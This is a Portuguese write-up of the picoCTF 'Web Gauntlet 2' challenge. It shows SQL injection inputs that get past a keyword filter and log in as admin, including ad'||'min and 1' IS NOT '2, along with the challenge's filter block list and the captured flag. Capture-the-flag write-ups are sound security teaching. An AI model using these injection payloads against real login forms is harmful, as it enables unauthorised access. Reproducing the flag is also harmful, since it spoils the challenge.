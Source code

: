 # Gauntlet 2
###### Resolvido por @Menegaldo e @BrunoCuba 
> Este é um CTF sobre [SQL Injection, Weak Filtering, Session Manipulation]

## Sobre o Desafio  
This website looks familiar...  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio
- [Gauntlet_2](https://play.picoctf.org/practice/challenge/174)
- [Acesse o site](http://mercury.picoctf.net:21336/)  
- [Página de filtragem](http://mercury.picoctf.net:21336/filter.php)  

Boa sorte! 🔥  

## Solução  

Ao acessar o site com a segunda questão, percebi que ela seria quase igual ao web Gauntlet 1, por ter o mesmo esquema de uma página de Login e Senha.

![image](https://github.com/user-attachments/assets/286fe1ca-4336-46bd-80ef-d882e5392d3d)

Depois, acessei o `filter.php`, que no primeiro exercício mostrava quais eram os filtros para não usar no comando da Query. No caso deste exercício, os filtros são:

![image](https://github.com/user-attachments/assets/d59a122f-447c-4c72-a41b-3b0f023db98f)

Minhas primeiras tentativas incluíram buscar no ChatGPT por algumas alternativas, e ele me deu o seguinte comando:

```sql
LOGIN: admin' AND 1=1 AND (SELECT name FROM sqlite_master WHERE type='table') --  
SENHA: qualquer coisa
```

Porém, essa tentativa não foi favorável, pois o site tem um filtro de tamanho de caracteres também:

![image](https://github.com/user-attachments/assets/ae16e14f-c01e-477c-9b32-bec59c104f81)

Depois disso, pedi ao GPT para me passar todos os comandos do SQLite:

```sql
SELECT
FROM
WHERE
AND
OR
NOT
INSERT INTO
UPDATE
DELETE
CREATE TABLE
DROP TABLE
ALTER TABLE
JOIN
UNION
GROUP BY
HAVING
ORDER BY
LIMIT
DISTINCT
LIKE
IN
BETWEEN
IS NULL
IS NOT NULL
EXISTS
CASE
=
<
<=
<>
!=
IS TRUE
IS FALSE
IS NOT TRUE
IS NOT FALSE
IS
char()
hex()
substr()
length()
count()
sum()
avg()
min()
max()
lower()
upper()
random()
```

Com todas essas opções, comecei a tentar diferentes comandos de forma que o valor fosse positivo e nenhum filtro fosse barrado, mas nenhuma ideia funcionou. Pedi ajuda ao GPT novamente, e ele sugeriu tentar comparar dois números diferentes com o `IS NOT` para que o valor fosse `TRUE`, permitindo que a lógica no SQLite me desse acesso ao site.

Minha primeira tentativa foi:

```sql
LOGIN: 'qualquer coisa'
SENHA: 1' IS NOT '2
```

![image](https://github.com/user-attachments/assets/3e517e79-1815-433c-b75d-a382d167db5b)

![image](https://github.com/user-attachments/assets/fdbf8787-3af3-4c71-ac97-5ee47694a88e)

Eu percebi que não adiantaria tentar entrar com outro usuário, então voltei ao Web Gauntlet 1 para ver como o login do admin funcionava e tentar burlar o filtro.

No campo de LOGIN, eu precisava usar: `ad'||'min`, e então tentei novamente no campo de SENHA: `1' IS NOT '2`.

Com isso, consegui realizar o login no site.

![image](https://github.com/user-attachments/assets/1f2b11fe-7eae-40e4-b8dd-779e79cd8a86)  

![image](https://github.com/user-attachments/assets/5d4ccf40-2239-47dc-b20e-9391161df011)

Depois, acessei o `filter.php`, que me apresentou o seguinte código:

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
?>  
```

> Assim, obtemos a flag `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`  
